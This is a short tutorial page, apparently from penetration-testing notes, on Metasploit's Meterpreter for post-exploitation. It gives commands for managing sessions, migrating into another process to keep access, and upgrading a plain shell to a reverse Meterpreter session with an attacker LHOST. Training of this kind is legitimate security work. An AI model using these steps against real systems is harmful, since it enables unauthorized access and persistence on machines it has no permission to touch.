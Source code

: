 # Meterpreter shell for post-exploitation

By now you probably has some kind of shell to the target. If it is not a meterpreter shell you should probably try to turn the current shell into a meterpreter shell, since it gives you a lot of tools available really easy.

So just create a meterpreter-shell from msfvenom or something like that. Maybe a php-shell. Or whatever you have access to. Then you just fire that script and get your meterpreter shell. Check out the chapter Exploiting/Msfvenom for more about creating payloads.


## Basics

List all commands
```
help
```

Get help about a specific command
```
help upload
```

### Sessions
So first some basics. You can put the shell into a background job with the command `background`. This might be useful if you have several shells going at the same time. Or if you want to move to a specific directory to upload or download some files.

List background sessions
```
background -l
```

Connect back to a background session
```
background -i 1
```

Upload and download files.
```
upload
download
```


## Scripts


### Migrate
A really common and useful script that is build into metasploit is the migrate script. If you get the shell through some kind of exploits that crashes a program the user might shut down that program and it will close your session. So you need to migrate your session to another process. You can do that with the `migrate` script.

First run this command to output all processes
```
ps
```

Now you choose one and run
```
run migrate -p 1327
```
Where the **-p** is the PID of the process.


## Post modules

There are tons of modules specifically created for post-exploitation. They can be found with

```
use post/
```

### Upgrade a normal shell to metepreter

There is a point in doing stuff through metasploit. For example, if you find a exploit that does not have meterpreter available as a payload you can just start a normal shell and then upgrade it. To do that you do the following:

First you generate a shell through metasploit, either through a specici exploit or through a msfvenom-shell that you upload. Now that you have a normal shell it is time to upgrade it to a meterpreter shell.

First we have to leave the shell but without killing it. So we do

```
Ctr-z
Background session 2? [y/N]  y
```

Now we have that shell running in the background, and you can see it with 
```
show sessions
#or
sessions -l
```
And you can connect to it again with

```
sessions -i 1
```
Or whatever the number of the session is.

So now we have the shell running in the background. It is time to upgrade

```
use post/multi/manage/shell_to_meterpreter
set LHOST 192.168.1.102
set session 1
exploit
```

Now metasploit will create a new session with meterpeter that will be available to you.